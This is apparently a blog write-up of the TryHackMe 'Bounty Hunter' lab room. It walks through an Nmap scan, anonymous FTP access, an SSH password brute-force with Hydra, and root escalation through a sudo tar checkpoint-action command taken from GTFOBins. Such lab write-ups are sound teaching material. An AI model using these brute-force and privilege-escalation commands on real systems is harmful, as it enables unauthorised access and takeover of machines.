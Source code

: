 ```yaml
---
layout: blog
title: THM Bounty Hunter Writeup
publishDate: 2023-12-03T12:09:00.000Z
description: Step-by-step walkthrough of TryhackMe Bounty Hunter room. This is
  an easy room, great for learning about Nmap, FTP, Hydra and privilege
  escalation.
tags:
  - tryhackme
  - writeup
---
```

I ran a simple TCP SYN scan using Nmap to find all the open ports. 

```sh
nmap -sS -vv TARGET_IP
```

![](/images/uploads/screenshot-2025-03-22-120746.png)

3 ports were found open:

| Port | Service |
| ---- | ------- |
| 21   | ftp     |
| 22   | ssh     |
| 80   | http    |

As the FTP service was running on an open port, I tried connecting to the FTP server using the username "anonymous" and it worked.

```sh
ftp TARGET_IP
```

I listed all the files in the current directory using the `ls` command.

![](/images/uploads/screenshot-2025-03-22-120832.png)

I downloaded both the files using the `get` command

```sh
get task.txt

get locks.txt
```

The task.txt file contained the name name of the user who wrote the task list.

![](/images/uploads/screenshot-2025-03-22-120704.png)

The locks.txt file was a wordlist, probably containing the password of the user, which I cracked using Hydra by trying to login to the SSH server, which was also running on an open port.

```sh
hydra -l USERNAME -P locks.txt ssh://TARGET_IP
```

![](/images/uploads/screenshot-2025-03-22-120716.png)

Now I could login to the target machine remotely using ssh with this username and password.

```sh
ssh USER@TARGET_IP
```

The user.txt file was found in the `~/Desktop` directory.

The user did not have root access. So, I ran `sudo -l` to find sudo permissions. The user had `/bin/tar` permission.

![](/images/uploads/screenshot-2025-03-22-120723.png)

This allowed me to escalate privileges to root and gain access to a root shell. I used this command to do so.

```sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Source: [tar | GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo)

![](/images/uploads/screenshot-2025-03-22-120731.png)

The root.txt could be found in `/root` directory.

